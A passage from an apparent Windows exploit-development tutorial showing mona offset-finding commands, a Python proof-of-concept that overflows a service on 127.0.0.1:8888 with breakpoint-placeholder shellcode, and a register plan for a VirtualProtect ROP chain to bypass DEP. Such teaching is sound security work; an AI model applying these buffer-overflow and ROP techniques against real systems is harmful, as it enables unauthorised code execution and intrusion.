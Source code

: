 It's great that we have EIP overwrite. We now need to find the offset.
```sh
!mona pc 4000
!mona po 316A4230 -- 1052 offset
```

Edit PoC.
```python
import socket

target="127.0.0.1"
buffer=4000
junk1="A"*1052
shellcode="\xCC"*200

exploit=junk1+shellcode
fill="\x43"* (buffer-len(exploit))
payload=exploit+fill

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except:
	print "Don't Crash Me !"
```
![windows](/assets/img/headers/windows-exploit-dev-part-6/rop3.png)

ROP chain's turn has come.So let's start by determining what needs to go into which registers to make VirtualProtect() work as intended. We must have:

- `lpAddress`: A pointer to an address that identifies the first page of the area of pages whose access protection attributes are to be modified.

- `dwSize`: The region's size in bytes that has to have its access protection attributes updated.

The memory protection option is flNewProtect. One of the memory protection constants may apply to this parameter.

- `lpflOldProtect`: A reference to a variable that stores the prior access protection setting for the first page in the designated region of pages. The function fails if this parameter is NULL or does not point to a recognized variable.

| Register  | Value                    |
|-----------|--------------------------|
| EAX       | NOP (0x90909090)         |
| ECX       | lpOldProtect (ptr to W address) |
| EDX       | NewProtect (0x40)        |
| EBX       | dwSize                   |
| ESP       | lPAddress (automatic)    |
| EBP       | ReturnTo (ptr to jmp esp)|
| ESI       | ptr to VirtualProtect()  |
| EDI       | ROP NOP (RETN)           |
